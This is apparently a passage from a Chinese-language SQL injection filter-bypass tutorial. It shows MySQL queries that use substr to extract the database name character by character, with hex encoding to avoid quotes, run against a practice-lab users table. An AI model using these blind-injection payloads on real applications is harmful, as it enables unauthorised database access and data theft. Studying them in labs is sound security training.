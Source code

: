 实战效果

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675822488720-f13369ad-b52d-4731-9bc2-acc01631b67b.png)

# substr字符串截取★ 

原理如下，通过截取字符串来进行sql注入，甚至可以通过转成16进制避免出现单引号。

```sql
mysql> select (substr(database() from 1 for 1));
+-----------------------------------+
| (substr(database() from 1 for 1)) |
+-----------------------------------+
| s                                 |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and 's'=(select(substr(database()from 1 for 1)));
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and 0x73=(select(substr(database()from 1 for 1)));
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

